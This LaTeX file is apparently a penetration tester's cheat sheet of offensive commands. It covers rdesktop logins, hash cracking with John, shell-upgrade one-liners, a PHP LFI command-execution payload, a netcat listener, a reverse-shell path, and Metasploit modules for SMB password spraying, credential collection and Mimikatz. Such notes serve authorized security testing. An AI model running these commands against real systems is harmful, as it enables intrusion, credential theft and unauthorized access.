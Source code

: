 \documentclass[a4paper,12pt, twoside,]{report}
\begin{document}
\begin{lstlisting}[caption={commands},label=com]
*@Rdesktop all the things@*
rdesktop -u ***@user@*** -p ***@password \$ if you want $ etc@*** <IP>

*@John stand alone:@*
john hashdump --wordlist /usr/share/wordlists/rockyou.txt

*@Redirecting output from the error to the default output, usefull if you  don't see a output in a remote executed command@*
 2>&1
***@to test put the command localy with >/dev/null .. if there is a output than this is not your error@***

*@Escaping Shell HELL@*
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i



*@fun snippet - pipe a remote machine's live tcpdump into your local wireshark@*
ssh root@HOST tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -

*@ Fun with remote shares@*
showmount -e <ip> for nfs shares etc

*@flag for compiling for 64bit on 32bit kali with gcc@*
-m64

*@Don't know why but this might give you command execution if you have lfi@*
Curl -s --data "<?system (<'cmd'>);?>" LFI=php://input%00

*@Reading SSL certs, might leak information@*
openssl s_client -connect {HOSTNAME}:{PORT} -showcerts

*@To slow to type your commands in a nc listener ?@*                                                              
cat privesccore.txt | nc -lvp 443

*@Alternate php shell@*
/usr/share/laudanum/php/php-reverse-shell.php
\end{lstlisting}

\subsection{Metasploit}
\begin{lstlisting}[caption={Metasploit},label=msf]

*@To make a session more stable @*
set Autorunscript post/windows/manage/migrate

*@Importing Nmap into Metasploit@*
db_import *.xml

*@SMB login spray and pray@*
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN 
set SMBUser user
set SMBPass password
services -p 445 -R  
run 

*@Running john in msfconsole against found hashes@*
use auxiliary/analyze/jtr_crack_fast 
run

*@Good post modules to run on windows@*
run post/windows/gather/credentials/credential_collector
run post/windows/gather/credentials/gpp
run post/windows/gather/enum_ms_product_keys
 ***@In the real world there is no proof.txt, this is a good secret proof for a machine without putting secret data of your client in the report@***

*@Mimikatz@*
load mimikatz
 msv
kerberos

\end{lstlisting}
\newpage
\end{document}
